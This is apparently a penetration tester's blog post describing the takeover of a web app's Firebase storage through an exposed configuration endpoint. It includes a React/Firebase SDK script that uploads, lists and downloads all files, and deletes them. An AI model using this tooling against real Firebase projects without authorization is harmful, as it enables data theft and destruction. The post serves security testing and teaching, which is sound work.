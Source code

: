 ```yaml
---
layout: post
title: "Pentest Diaries: Complete Takeover of Firebase Database in Web Application"
tags:
  - Penetration Test
  - Offensive Security
author: "Najam Ul Saqib"
comments: true
description: "I in a penetration test got complete access to Firebase database of a Flutter app; Firebase databases are usually linked with mobile apps so this was a unique experience for me."
date: "2024-04-19"
---
```


On a recent penetration test engagement, I was given a single URL of web application which upon initial reconnaissance turned out to be a Flutter-based application. The application was using web-sockets heavily (I'm observing rising adoption of web-sockets in web apps).

Testing web-sockets is not easy and usually very cumbersome; specially when web-sockets is using some sort of special encoding and often web-sockets are sending multiple messages in a short span of time so it becomes even more difficult to track the functionality of application.

After peeking for some time into web-sockets I couldn't find anything interesting since it was using socket.io library so most of the messages was from the library itself.

I started to look for HTTP messages, which revealed heavy reliance of application on Google products i.e. it was using Google Identity Platform, usage of Firebase as database, and other misc. Google services so definitely attack surface of cloud was there.

That's when I found an interesting endpoint `https://firebase.googleapis.com/v1alpha/projects/-/apps/1:106407******:web:c587eda2473********/webConfig` and request/response looked like this:

![Firebase Configuration](/assets/images/posts/firebase-takeover/config-request.png){:style="display:block; margin-left:auto; margin-right:auto"}

Now I wanted to know how this configuration can be exploited, upon searching for relevant writeups I noticed nearly all of the write-ups referenced to Android apps as Firebase DBs are more commonly used with mobile apps; but it was clear that the information that I've got is not usual.

Upon further research, I found NPM package for Firebase which meant I can build a Javascript app to consume Firebase database, and I followed the following article to create baseline app for Firebase: [Upload files to Firebase Cloud Storage in Firebase v9 with React](https://blog.logrocket.com/firebase-cloud-storage-firebase-v9-react/) and then tweaked it further to perform CRUD operations on the database.

The tweaked version of React app is uploaded on my Github profile which can be accessed [here](https://github.com/njmulsqb/Firebase-Access-Tester)

```js
import "./App.css";
import { useState } from "react";
import { storage } from "./firebase";
import {
  ref,
  getDownloadURL,
  uploadBytesResumable,
  listAll,
  deleteObject,
} from "firebase/storage";

function App() {
  const [imgUrl, setImgUrl] = useState(null);
  const [progressPercent, setProgressPercent] = useState(0);
  const [deleteFileName, setDeleteFileName] = useState("");

  const handleSubmit = (e) => {
    e.preventDefault();
    const file = e.target[0]?.files[0];
    if (!file) return;
    const storageRef = ref(storage, `files/${file.name}`);
    const uploadTask = uploadBytesResumable(storageRef, file);

    uploadTask.on(
      "state_changed",
      (snapshot) => {
        const progress = Math.round(
          (snapshot.bytesTransferred / snapshot.totalBytes) * 100
        );
        setProgressPercent(progress);
      },
      (error) => {
        alert(error);
      },
      () => {
        getDownloadURL(uploadTask.snapshot.ref).then((downloadURL) => {
          setImgUrl(downloadURL);
        });
      }
    );
  };

  const handleDownloadAllContent = () => {
    const storageRef = ref(storage, "files/");

    listAll(storageRef)
      .then((res) => {
        res.items.forEach((itemRef) => {
          getDownloadURL(itemRef)
            .then((downloadURL) => {
              console.log("Downloading:", downloadURL);
            })
            .catch((error) => {
              console.error("Error getting download URL:", error);
            });
        });
      })
      .catch((error) => {
        console.error("Error listing items:", error);
      });
  };

  const handleDeleteFile = () => {
    const fileRef = ref(storage, `files/${deleteFileName}`);
    deleteObject(fileRef)
      .then(() => {
        console.log(`${deleteFileName} deleted successfully`);
        setDeleteFileName("");
      })
      .catch((error) => {
        console.error("Error deleting file:", error);
      });
  };
}

export default App;
```
I know the implementation is dirty, but as long as it worked I am okay with it, also the target was to test the DB not to build a responsive web app ;)

Utilizing Firebase library, I was able to access database, upload files, delete files and dump all the data as well, so it was a big win.

![Firebase Data](/assets/images/posts/firebase-takeover/firebase-json.png){:style="display:block; margin-left:auto; margin-right:auto"}

While app frameworks are becoming secure but misconfigurations in cloud are also getting common as their integration with web apps is increasing with every rising day.

Happy Hunting!
